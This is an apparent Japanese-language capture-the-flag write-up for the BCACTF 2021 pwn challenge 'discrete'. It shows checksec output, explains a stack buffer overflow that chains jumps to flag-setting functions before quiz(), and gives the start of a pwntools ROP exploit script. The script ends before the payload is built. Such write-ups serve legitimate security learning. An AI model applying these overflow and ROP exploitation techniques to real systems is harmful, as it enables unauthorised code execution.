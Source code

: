 ```C
        exit(1);
    }

    puts("Your quiz have been posted to Schoology.");
    puts("You have twenty minutes.");
    puts("Good luck.");
}
```

<br>

### Solution
以下、checksecの出力結果です。

<pre>
$ checksec discrete
[*] '/home/captureamerica/OneDrive/CTF/BCACTF_2021/Pwn/discrete'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

<br>
各関数に飛んでグローバル変数を立てた後、quiz()関数に飛ぶとフラグが取れる寸法です。

まずは、いくつかの方程式を自力で解かないといけません。久しぶりに数学やったな〜。

<br>
ここで、BOFを起こした後、飛んだ先の関数で Segmentation fault を出して終了してしまう問題にぶち当たりました。

他の関数(quiz)を挟むことで回避できたので、そのようなコードになってます。後で他の方がどうやって解いたのか、参考にさせてもらおうと思います。

{{< highlight python "linenos=table,hl_lines=28 30 32 35" >}}
#!/usr/bin/env python
# -*- coding:utf-8 -*-

from pwn import *
context(os='linux', arch='amd64')
context.log_level = 'critical'

elf = ELF('./discrete')
context.binary = elf
addr_logic = elf.symbols["logic"]
addr_algebra = elf.symbols["algebra"]
addr_functions = elf.symbols["functions"]
addr_quiz = elf.symbols["quiz"]
addr_main = elf.symbols["main"]
rdi_ret = next(elf.search(asm('pop rdi; ret')))
nop = next(elf.search(asm('nop')))

if 0:
    s = process('./discrete')
    # s = remote('localhost', 7777)
else:
    s = remote('bin.bcactf.com', 49160)
